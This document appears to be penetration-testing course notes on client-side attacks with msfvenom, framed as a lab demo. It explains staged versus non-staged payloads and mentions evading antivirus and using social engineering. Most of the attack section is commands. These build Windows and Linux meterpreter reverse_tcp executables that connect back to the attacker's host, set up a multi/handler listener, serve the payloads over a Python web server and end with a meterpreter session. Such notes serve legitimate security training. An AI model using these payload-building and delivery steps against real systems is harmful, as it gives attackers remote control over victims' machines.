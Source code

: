 # Payloads

# Generating Payloads with Msfvenom

## Client Side Attacks

- A client-side attack is an attack vector that involves coercing a client to ececute a malicious payload on their system that consequently connects back to the attacker when executed.
- Client-side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs).
- Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
- Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.

## Msfvenom

- Msfvenom is a command-line utility that can be used to generate and encode MSF payloads for various operating systems as well a web servers.
- Msfvenom is a combination of two utilities, namely: msfpayload and msfencode.
- We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

## Demo: Generating Payloads with Msfvenom

`msfvenom`

We list out the available payloads we can generate:

`msfvenom --list payloads`

- We focus on the meterpreter payload. When we specify a payload, we'll first specify the OS, OS architecure, payload type, protocol (connecting back to the OS)
- Payloads:
  - Staged payload: Is delivered in two parts: an initial loader that connects back to the attacker and downloads the main payload, allowing for smaller payloads and flexibility.
  - Non-staged payload: Delivers the entire payload at once, making it simpler and faster but potentially larger in size
 
### Generating Windows payloads:

`msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[ownIP] LPORT=[port the payload should connect back to] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx86.exe`

We check if the payload generated successfully:

`cd Desktop/Windows_Payloads/`

`ls`

Generating a x64 payload:

`msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ownIP] LPORT=[port the payload should connect back to] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx64.exe`

`cd Desktop/Windows_Payloads/`

`ls`

We also need to setup a handler. A handler is needed to listen for and manage incoming connections from the payload on the target machine, enabling control over the compromised system:

`use exploit/multi/handler`


Listing out the output formats available:

`msfvenom -list formats`

Framework Executable Formats are aspx, dll, elf, exe, jar etc.
Framework Transform Formats allow us to output the payloads into a python, ruby file etc.

### Generating Linux payloads:

`cd ..`

`ls`

We will be storing the Linux payloads under /home/kali/Desktop/

We generate a payload:

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ownIP] LPORT=[backConnect Port] -f elf > /Desktop/Linux_Payloads/payloadx86`

`cd Linux_Payloads/`

We execute this:

`chmod +x payloadx86`

`./payloadx86`

### Transfer Windows payload onto target system

`cd Windows_Payloads/`

Set-up a simple webserver to host the payload files:

`sudo python -m SimpleHTTPServer 80`

New tab:

msfconsole

msf6:`use multi/handler`

msf6:`set payload windows/meterpreter/reverse_tcp`

msf6:`set lhost [ownIP]`

msf6:`set lport [port we configured when generating the paylaod]`

msf6:`run`

We obtained a meterpreter session









